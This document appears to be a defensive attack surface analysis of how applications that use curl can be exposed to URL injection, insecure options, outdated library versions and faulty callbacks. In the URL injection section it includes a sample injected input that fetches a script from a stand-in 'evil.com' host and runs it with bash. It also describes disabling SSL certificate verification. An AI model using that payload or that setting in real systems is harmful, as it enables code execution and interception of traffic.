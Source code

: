 # Attack Surface Analysis for curl/curl

## Attack Surface: [URL Injection/Manipulation](./attack_surfaces/url_injectionmanipulation.md)

**Description:** The application constructs URLs dynamically based on user input or external data without proper sanitization.

**How curl contributes:** `curl` is the component that fetches the resource at the constructed URL. If the URL is malicious, `curl` will attempt to access it.

**Example:** An application takes a website name from user input and constructs a URL like `curl "https://{user_input}.example.com/data"`. An attacker inputs `evil.com -o /tmp/malicious_script && bash /tmp/malicious_script`. `curl` might attempt to execute this as a command if not handled carefully.

**Impact:**  The application could make requests to unintended servers, potentially leaking internal information, performing actions on behalf of the application (SSRF), or even leading to command execution if the output is mishandled.

**Risk Severity:** High

**Mitigation Strategies:**
* **Developers:** Implement strict input validation and sanitization for all data used to construct URLs. Use allow-lists of allowed domains or protocols. Avoid directly embedding user input into shell commands. Utilize URL parsing libraries to safely construct and validate URLs.

## Attack Surface: [Insecure `curl` Options](./attack_surfaces/insecure__curl__options.md)

**Description:** The application configures `curl` with insecure options that weaken security.

**How curl contributes:** `curl` respects the options it's given. Insecure options directly compromise the security of the network request.

**Example:** The application sets `CURLOPT_SSL_VERIFYPEER` and `CURLOPT_SSL_VERIFYHOST` to `0` to bypass SSL certificate verification, making it vulnerable to man-in-the-middle attacks.

**Impact:**  Exposure to man-in-the-middle attacks, allowing attackers to intercept and potentially modify sensitive data transmitted over HTTPS.

**Risk Severity:** Critical

**Mitigation Strategies:**
* **Developers:**  Always enable SSL certificate verification (`CURLOPT_SSL_VERIFYPEER` and `CURLOPT_SSL_VERIFYHOST` should be set to `1`). Explicitly specify trusted CA certificates if necessary. Avoid using insecure protocols like HTTP when HTTPS is available. Review all `curl` options used and understand their security implications.

## Attack Surface: [Vulnerabilities in `curl` Library](./attack_surfaces/vulnerabilities_in__curl__library.md)

**Description:** The application uses a version of the `curl` library with known security vulnerabilities.

**How curl contributes:** The vulnerable code within the `curl` library itself can be exploited when processing network requests.

**Example:** A buffer overflow vulnerability in an older version of `curl` could be triggered by a specially crafted server response, potentially leading to remote code execution on the application's server.

**Impact:**  Depending on the vulnerability, this could lead to crashes, information disclosure, or remote code execution.

**Risk Severity:** Critical to High (depending on the specific vulnerability)

**Mitigation Strategies:**
* **Developers:**  Regularly update the `curl` library to the latest stable version. Implement dependency management practices to track and update library versions. Monitor security advisories for `curl` and its dependencies.

## Attack Surface: [Callback Function Vulnerabilities](./attack_surfaces/callback_function_vulnerabilities.md)

**Description:** If the application uses `curl`'s callback functions, vulnerabilities can arise in the implementation of these callbacks.

**How curl contributes:** `curl` provides the mechanism for callbacks, but the application's implementation introduces the vulnerability.

**Example:** A poorly implemented `CURLOPT_WRITEFUNCTION` callback might have a buffer overflow, which an attacker could trigger by sending a large response.

**Impact:**  Memory corruption, crashes, or potentially remote code execution.

**Risk Severity:** High

**Mitigation Strategies:**
* **Developers:**  Carefully implement and thoroughly test all callback functions used with `curl`. Avoid buffer overflows and other memory management issues. Sanitize and validate data received within callbacks.

